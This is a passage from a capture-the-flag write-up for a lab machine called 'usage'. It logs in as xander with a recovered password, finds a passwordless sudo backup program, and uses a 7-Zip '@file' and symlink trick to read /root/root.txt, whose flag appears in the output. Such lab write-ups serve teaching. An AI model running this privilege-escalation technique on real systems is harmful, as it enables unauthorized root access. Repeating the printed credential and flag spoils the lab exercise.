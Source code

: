 ```
```
after that you can change the user:
```
dash@usage:~$ su xander
su xander
Password: 3nc0d3d_pa$$w0rd
xander@usage:
```
there is no flag in `xander-s home directory` so then it's located into `/root`.
We'll need to check what permissions does `xander`have:
```
xander@usage:~$ sudo -l
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
I don't know how this program works so i had to search what should i do in this moment, so i made `symlink`and connected it with `root.txt`. It looked like this:
```
xander@usage:/var/www/html$ touch @root.txt
touch @root.txt
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
ln -s /root/root.txt root.txt
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=C.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--
Path = /var/backups/project.zip
Type = zip
Physical Size = 54842066

Scanning the drive:

WARNING: No more files
86ee91210cc27a0cde61983e7f595d07

2984 folders, 17974 files, 113884458 bytes (109 MiB)

Updating archive: /var/backups/project.zip

Items to compress: 20958


Files read from disk: 17974
Archive size: 54842208 bytes (53 MiB)

Scan WARNINGS for files and folders:

```